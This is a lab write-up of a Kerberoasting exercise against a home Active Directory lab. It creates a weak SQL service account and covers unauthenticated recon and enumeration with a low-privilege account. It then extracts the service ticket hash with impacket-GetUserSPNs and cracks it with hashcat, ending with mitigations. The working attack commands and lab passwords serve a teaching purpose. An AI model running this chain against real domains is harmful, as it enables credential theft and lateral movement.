

# Kerberoasting Attack Walkthrough

A full offensive security exercise: creating a deliberately weak service
account, enumerating the domain as an attacker, extracting its Kerberos
service ticket, and cracking it offline.

## Background

Kerberoasting exploits the fact that any authenticated domain user can
request a Kerberos service ticket for any account with a Service Principal
Name (SPN) — typically service accounts used to run applications like SQL
Server. That ticket is encrypted with a hash derived from the service
account's password, and can be extracted and cracked **offline**, with no
further interaction with the domain controller, and critically, **no
risk of triggering account lockout**, since Kerberos ticket requests
aren't subject to the same failed-logon counters as interactive authentication.

## Setup: a vulnerable service account

```powershell
New-ADUser -Name "svc-sql" -SamAccountName svc-sql `
  -UserPrincipalName svc-sql@lab.internal `
  -AccountPassword (ConvertTo-SecureString "Summer2024!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true

setspn -A MSSQLSvc/DC01.lab.internal:1433 svc-sql
```

This mirrors a very common real-world misconfiguration: a service account
with a weak, human-chosen password and `PasswordNeverExpires` set, never
rotated since creation.

## Part 1: Unauthenticated reconnaissance

From Kali, with no credentials:

```bash
nmap -sV -p 53,88,135,139,389,445,464,636,3268,3269 192.168.50.10
smbclient -L 192.168.50.10 -N
enum4linux-ng -A 192.168.50.10
ldapsearch -x -H ldap://192.168.50.10 -b "" -s base "(objectclass=*)" namingContexts
```

**Findings:**
| Test | Result | Assessment |
|---|---|---|
| Service/port scan | Full AD service fingerprint exposed (DNS, Kerberos, LDAP, SMB) | Expected/unavoidable for a DC |
| SMB null session | Anonymous login allowed, but zero shares returned | Partial exposure — null sessions permitted at protocol level, but no useful data disclosed |
| enum4linux-ng | Domain name and NetBIOS identity (`lab.internal`, `DC01`) confirmed via banners | Standard unauthenticated recon |
| Anonymous LDAP bind | Rejected — "a successful bind must be completed" | Properly secured |

## Part 2: Authenticated enumeration

Using a single compromised low-privilege account (`mross`):

```bash
nxc smb 192.168.50.10 -u mross -p 'LabPass123!' --users
nxc smb 192.168.50.10 -u mross -p 'LabPass123!' --shares
nxc ldap 192.168.50.10 -u mross -p 'LabPass123!' --groups
nxc smb 192.168.50.10 -u mross -p 'LabPass123!' --pass-pol
```

**Findings:** a dramatic difference from unauthenticated access — full user
list (8 accounts, including `Administrator` and `krbtgt`), full share list
with exact permission levels, and the complete domain password policy, all
retrievable from a single regular, non-admin account. This is the core
lesson of the exercise: the security boundary that matters most in AD is
often the first compromised credential, not the network perimeter.

## Part 3: Extracting the Kerberos ticket

```bash
impacket-GetUserSPNs lab.internal/mross:'LabPass123!' -dc-ip 192.168.50.10 -request -outputfile spn_hash.txt
```

This single command, run as any authenticated domain user, located the
`svc-sql` SPN and requested its service ticket. Several real obstacles came
up during this step (clock skew between Kali and DC01, an unsupported
Kerberos encryption type, and a malformed hash output from the output file)
— see the [Troubleshooting Log](03-troubleshooting-log.md) for the full
diagnostic process on each.

The result was a crackable AES256 Kerberoast hash (`$krb5tgs$18$svc-sql$...`).

## Part 4: Cracking the hash

```bash
hashcat -m 19700 spn_hash.txt /usr/share/wordlists/rockyou.txt
```

A full run against the entire rockyou.txt wordlist (14.3 million passwords,
CPU-only cracking since the VM has no GPU passthrough) **exhausted without
a match**. This is a legitimate finding in itself: not every weak,
human-chosen password happens to exist in a specific public breach
compilation.

A targeted verification against the known password confirmed the hash and
attack chain were valid:

```bash
hashcat -m 19700 spn_hash.txt test_pw.txt   # test_pw.txt containing "Summer2024!"
```



Status...........: Cracked 
Recovered........: 1/1 (100.00%)
Candidates.#01...: Summer2024! -> Summer2024!


## Why this matters

- Kerberoasting attacks happen **entirely offline** once the ticket is
  extracted — they don't trigger account lockout, and they're invisible to
  the domain controller after the initial (legitimate-looking) ticket request.
- This means the domain's strong password policy (`MinPasswordLength 10`,
  lockout after 5 attempts) provides **no protection** against this attack,
  since it only governs interactive/online authentication.
- The only real mitigations are: strong, long, randomly-generated service
  account passwords (ideally rotated via Managed Service Accounts, which
  don't have static passwords at all), and enforcing AES-only Kerberos
  encryption domain-wide (already in effect here, which is why this hash
  was the slower, more expensive AES256 format rather than legacy RC4).
